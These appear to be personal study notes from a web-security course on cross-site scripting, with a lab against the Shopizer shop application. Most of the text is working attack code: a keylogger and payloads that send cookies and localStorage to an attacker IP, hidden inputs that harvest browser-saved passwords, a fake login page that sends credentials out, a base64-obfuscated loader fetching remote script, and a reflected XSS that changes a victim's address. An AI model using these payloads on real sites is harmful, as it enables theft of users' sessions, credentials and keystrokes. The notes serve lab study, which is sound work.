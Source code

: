 #### Javascript method

=====
function processData(data) {
    data.items.forEach(item => {
      console.log(item)
    });
  }

let foo = {
    items: [
      "Hello",
      "Zdravo",
      "Hola"
    ]
  }

processData(foo)
=====

(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Functions ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

type "allow pasting" in firefox web console.

====
let inputs = document.getElementsByTagName("input") 

for (let input of inputs){
    console.log(input.value)
}

====

#### key logging

====
function logKey(event){
	console.log(event.key);
	fetch("http://192.168.49.51/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
====

1
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/location ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/Events ↩︎

5
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch ↩︎

6
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise ↩︎

7
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document/keydown_event ↩︎

In case of innerHTML script tag does not get executed. use img tag.
<img src=x onerror=alert(0)>

https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML ↩︎

====

<script src="http://<KALI_IP>/xss.js"></script>

echo "alert(1)" > xss.js

Host xss.js on kali

====
##### Encoded Cookie
nano xss.js
cat xss.js
----
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
----
python3 -m http.server 80

<script src="http://192.168.49.129/xss.js"></script>

<img src=x onerror=fetch("http://192.168.49.129/exfil?data="+encodeURIComponent(document.cookie))>



##### Encoded Local Storage
----

let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)

----

<script src=http://192.168.49.57/xss.js></script>

<img src=x onerror=fetch("http://192.168.49.57/exfil?data="+encodeURIComponent(JSON.stringify(localStorage)))>


#### Keylogging

-----

>>> cat xss.js

function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

-----

<script src=http://192.168.49.57/xss.js></script>

#### Stealing saved passwords

----

    let body = document.getElementsByTagName("body")[0]
  
    var u = document.createElement("input");
    u.type = "text";
    u.style.position = "fixed";
    //u.style.opacity = "0";
  
    var p = document.createElement("input");
    p.type = "password";
    p.style.position = "fixed";
    //p.style.opacity = "0";
 
    body.append(u)
    body.append(p)
 
    setTimeout(function(){ 
            fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
     }, 5000);


----

<script src=http://192.168.49.57/xss.js></script>

#### Phishing Users

----

fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))

----

 https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions ↩︎
 
 >>>> cat phishing.js
 
 ---
 document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.49.57/login" method="get"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="username" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="password" required><button type="submit">Login</button></div></form>' 
 ---
 
 >>>> cat login.html
 
 ---
 <form action="http://192.168.49.57/login" method="get"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="username" required><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="password" required><button type="submit">Login</button></div></form>
 ---
 
Fetch only brings the content. But does not execute. so we are creating script element.
 
 <img src=x onerror="const script = document.createElement('script');script.src = 'http://192.168.49.57/phishing.js';script.async = true;document.body.appendChild(script);">


#### Shopizer

http://shopizer:8080/shop/category/handbags.html/ref=c:2'+alert(1)+'canary


c:2'+alert(1)+'canary

>>>>cat ~/xss/xss.js
alert('It worked!');

 jQuery.getScript('http://192.168.49.57/xss.js') 
 eval(atob(encoded data))
 
 '+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTcveHNzLmpzJyk='))+'
 
 Better solution:
 '+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTcveHNzLmpzJyk=')))+'
 
 ------
 1
(PortSwigger, 2021), https://portswigger.net/burp/documentation/desktop/tools/target/site-map ↩︎

2
(Wikipedia, 2021), https://en.wikipedia.org/wiki/JQuery ↩︎

3
(jQuery, 2021), https://api.jquery.com/jquery.getscript/ ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Glossary/Base64 ↩︎

5
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/atob ↩︎

6
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval ↩︎

-----
Content of xss.js:

fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
    method: 'POST',
    mode: 'same-origin',
    credentials: 'same-origin',
    headers: {
      'Content-Type':'application/x-www-form-urlencoded'
    }, 
    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
  })
  
  -----

Now using reflected XSS vuln, we are updating shipping address.
